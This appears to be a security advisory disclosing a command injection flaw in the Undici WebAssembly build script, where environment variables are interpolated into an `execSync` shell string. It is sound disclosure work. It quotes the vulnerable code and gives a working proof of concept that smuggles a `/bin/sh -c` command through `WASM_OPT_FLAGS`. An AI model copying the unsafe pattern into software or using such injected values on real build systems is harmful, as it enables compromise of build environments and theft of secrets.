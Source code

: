 ## Summary
A command injection vulnerability was discovered in the WebAssembly build script of Node.js Undici. The issue resides in the `build/wasm.js` script, where unsafe string interpolation is used with `execSync`. Attackers can manipulate environment variables such as `WASM_OPT` or `WASM_OPT_FLAGS` to execute arbitrary commands on the build system.
This vulnerability enables full compromise of the build environment, leading to potential supply chain attacks.
Severity is **High (CVSS 3.1: 8.1 AV\:N/AC\:H/PR\:N/UI\:N/S\:U/C\:H/I\:H/A\:H)**.


The vulnerable code is located in `build/wasm.js`:

```javascript
execSync(`${WASM_OPT} ${WASM_OPT_FLAGS} --enable-simd -o ${join(WASM_OUT, 'llhttp_simd.wasm')} ${join(WASM_OUT, 'llhttp_simd.wasm')}`, { 
    stdio: 'inherit' 
})
```

Because `execSync` interpolates untrusted environment variables directly into a shell command string, any attacker with control over the build environment (via CI/CD, npm scripts, or malicious dependency injection) can break out of the intended command structure and inject arbitrary shell commands.

The patch (PR #4392) resolves this by switching to `execFileSync`, which passes arguments as a list rather than invoking a shell interpreter, eliminating the injection vector.


## Proof of Concept (PoC)

1. Clone the repository and switch to a vulnerable commit:

```bash
git clone https://github.com/nodejs/undici.git
cd undici
git checkout c3f559154b061d73e9ce4be7e540ae69c8f26fcb
npm install
```

2. Set malicious environment variables:

```bash
export WASM_OPT="/bin/sh"
export WASM_OPT_FLAGS='-c "echo VULNERABLE > /tmp/undici_exploit; id >> /tmp/undici_exploit"'
```

3. Run the build script:

```bash
npm run build:wasm
```

4. Verify exploitation:

```bash
cat /tmp/undici_exploit
# VULNERABLE
# uid=1000(user) gid=1000(user) groups=1000(user)
```

This demonstrates arbitrary command execution via manipulated environment variables.


## Impact

* **Type of Vulnerability**: Command Injection (CWE-78)
* **Attack Vector**: Malicious environment variables during WASM build
* **Affected Users**:

  * Developers building Undici from source
  * CI/CD environments integrating Undici
  * Downstream projects depending on potentially backdoored WASM artifacts
* **Impact**:

  * Arbitrary command execution
  * Theft of build secrets (npm tokens, AWS credentials, CI/CD keys)
  * Supply chain compromise by injecting malicious code into distributed WASM artifacts
